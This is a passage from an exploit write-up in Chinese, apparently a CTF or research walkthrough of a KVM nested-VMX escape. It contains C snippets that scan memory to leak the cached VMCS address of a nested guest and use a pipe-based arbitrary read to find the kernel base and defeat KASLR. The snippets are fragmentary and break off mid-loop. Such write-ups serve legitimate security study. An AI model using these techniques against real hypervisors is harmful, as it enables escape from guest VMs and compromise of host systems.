 寻找nest\_vmx进而泄露嵌套虚拟机的在宿主机上的虚拟地址
-------------------------------

nested\_vmx结构包含一个指向嵌套虚拟机VMCS的指针： cached\_vmcs12 。它还包含一些我们知道其值的字段： vmxon\_ptr和current\_vmptr ，它们是我们创建的 VMXON 区域和 VMCS 的在虚拟机上的物理地址。所以我们可以扫描内存找到对应偏移位置为 VMXON 区域和 VMCS 的在虚拟机上的物理地址（这个我们是知道的），然后就可以知道nested\_vmx 的偏移，进而知道cached\_vmcs12的偏移，然后根据偏移读出嵌套虚拟机VMCS的虚拟地址，

```c
struct nested_vmx {
    /* Has the level1 guest done vmxon? */
    bool vmxon;
    gpa_t vmxon_ptr;
    bool pml_full;

    /* The guest-physical address of the current VMCS L1 keeps for L2 */
    gpa_t current_vmptr;
    /*
     * Cache of the guest's VMCS, existing outside of guest memory.
     * Loaded from guest memory during VMPTRLD. Flushed to guest
     * memory during VMCLEAR and VMPTRLD.
     */
    struct vmcs12 *cached_vmcs12;
    ...
}
```

```c
 for (i = 1; i < (0x4000*0x200); i += 2) {
        pos_offset = i;
        neg_offset = -i;

        if ( read_relative(pos_offset)== vmcs_page_pa && read_relative(pos_offset-2) == vmxon_page_pa) {
            found_val = pos_val;
            found_offset = pos_offset;
            break;
        }

    }
l2_vmcs_addr = read_guy(nested_vmx_offset+1);

```

得到phymap基地址
-----------

> 非常感谢nightu和Eurus和flyyy和tplus各位师傅的帮助

```c
 /**
     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,
     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.
     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     */
    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);

        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
```